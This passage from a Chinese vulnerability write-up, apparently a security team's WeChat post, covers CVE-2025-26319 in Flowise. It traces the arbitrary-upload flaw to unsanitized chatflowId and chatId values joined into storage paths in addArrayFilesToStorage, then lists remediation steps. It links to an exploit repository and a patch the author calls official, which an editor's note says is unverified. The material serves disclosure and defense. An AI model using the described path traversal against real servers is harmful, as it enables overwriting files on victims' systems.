  
### 3) 文件上传处理逻辑  
  
/api/v1/attachments/  
 路由负责处理文件上传创建操作。在 createFileAttachment  
 函数里，会调用addArrayFilesToStorage  
 处理文件。  
  
  
  
  
  
在 addArrayFilesToStorage  
 函数处理文件地址时，会把 chatflowId  
 和 chatId  
 直接拼接到路径里，而且没有进行任何处理，这就导致攻击者能通过编码绕过目录限制，实现跨目录上传，这就是漏洞产生的关键原因。  
  
  
## 0x07修复建议  
### 1) 官方修复  
- **升级版本**  
：将 Flowise 升级至最新版本（>= 2.2.7），官方已在该版本中修复了此漏洞。  
  
### 2) 临时修复措施  
- **限制接口访问**  
：在升级前，可以通过配置 .htaccess  
 文件或其他访问控制机制，限制对 /api/v1/attachments  
 接口的访问，仅允许受信任的 IP 地址或用户访问。  
  
- **严格文件权限**  
：在应用服务器上配置文件上传目录的严格权限，避免攻击者覆盖关键配置文件。  
  
- **更改存储类型**  
：将存储类型更改为 S3。默认情况下，存储类型设置为 Local，这使得漏洞更加严重。如果存储类型为 S3，则可以保护您免受这些攻击。  
  
### 3) 安全监控  
- **部署监控系统**  
：部署入侵检测系统（IDS）或安全信息和事件管理（SIEM）系统，实时监控服务器上的异常文件上传或配置更改行为。  
  
### 4) 补丁修复  
- **应用补丁**  
：如果无法立即升级，可以手动应用官方提供的补丁。补丁地址为：https://github.com/dorattias/CVE-2025-26319/blob/main/CVE-2025-26319-FIX.patch。  

> 校订说明：“官方提供”是原作者主张。该链接的官方身份与补丁适用性尚未核定；保留 URL 不代表本库确认它获得 Flowise 官方背书。
  
## 参考连接  
  
EXP：https://github.com/YuoLuo/CVE-2025-26319  
  
https://www.keepnight.com/archives/3118/  
  
https://www.freebuf.com/vuls/425908.html  
  
  
  
  
  
回复  
【加群】  
进入微信交流群  
  
回复  
【SRC群】  
进入SRC-QQ交流群  
  
回复  
【新人】  
领取新人学习指南资料  
  
回复  
【面试】  
获取渗透测试常见面试题  
  
回复  
【手册】  
获取原创技术PDF手册  
  
回复  
【合作】  
获取各类安全项目合作方式  
  
回复  
【帮会】  
付费加入SRC知识库学习  
  
回复  
【  
培训】  
获取TimelineSec创办的实战课程  
  
  
视频号：搜索TimelineSec，官方微博  
  
  
团队官网：  
http://www.timelinesec.com  
  
B站：  
https://space.bilibili.com/524591903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
